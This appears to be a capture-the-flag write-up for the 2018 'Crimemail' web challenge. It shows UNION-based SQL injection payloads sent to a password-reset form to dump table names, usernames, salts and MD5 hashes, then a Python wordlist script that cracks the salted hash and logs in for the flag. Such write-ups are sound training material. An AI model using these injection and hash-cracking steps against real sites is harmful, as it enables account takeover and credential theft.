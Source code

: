 # Crimemail, Web, 20pts

## Problem

Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.

Let's see if you can hack your way in his account...

Hint: his password's md5 is computed as followed: md5 = md5($password + $salt) and Collins Hackle has a password which can be found in an english dictionary

https://crimemail.ctf.insecurity-insa.fr/

## Solution

When I've opened provided url, a simple website with login was presented:


![Screen caption](1.png)


There was no obvious flaw(s) there, so I've checked __Lost password?__ link. Almost immediately I've found this feature was vulnerable to the SQL Injection:

![Screen caption](2.png)

As a result I've seen familiar MySQL error message (actually the part of familiar "You have an error in your SQL syntax; check the manual that corresponds..." :) 


![Screen caption](3.png)


First, using simple ```order by ``` clause I've figured out that there is only one column in query. So first what I've done was to read database structure:


```
username=hello' union select group_concat(concat(table_name,0x20,column_name)) from information_schema.columns where table_schema=database()-- 
```

As a result, I've got an ```users``` table structure:


![Screen caption](4.png)

Getting an information from ```users``` table was simple:


```
username=hello' union select group_concat(concat(username,0x20,pass_salt,0x20,pass_md5)) from users-- 
```

There were couple of users in database, and Collins Hackle seemed to be one of them:


![Screen caption](5.png)


His login details were as follows (username, salt used to hash the password and hash of the actual password itself):


```
c.hackle yhbG f2b31b3a7a7c41093321d0c98c37f5ad
```

From the hint attached to the challenge I knew that MD5 hash was a result of following operation:

```
md5 = md5($password + $salt)
```

Using one of password dictionaries I have, I've created small Python script to find the correct plaintext:


```python
#!/usr/bin/python
import hashlib

for passwd in open("/Users/bl4de/hacking/dictionaries/rockyou.txt", "r"):
    if hashlib.md5(passwd.strip() + "yhbG").hexdigest() == "f2b31b3a7a7c41093321d0c98c37f5ad":
        print "[+] password for Collins Hackle is {}".format(passwd.strip())
        exit(0)

print "[+] Done"
```

It was found within the blink of eye:


```
bl4de:~/hacking/ctf/2018/INSHACK_CTF_2018 $ ./colins_hackle.py
[+] password for Collins Hackle is pizza
```


When I've logged using Collin's credentials (c.hackle/pizza), I've got the flag:


![Screen caption](6.png)


Flag: **INSA{s3cr3t_l0cat10n}**
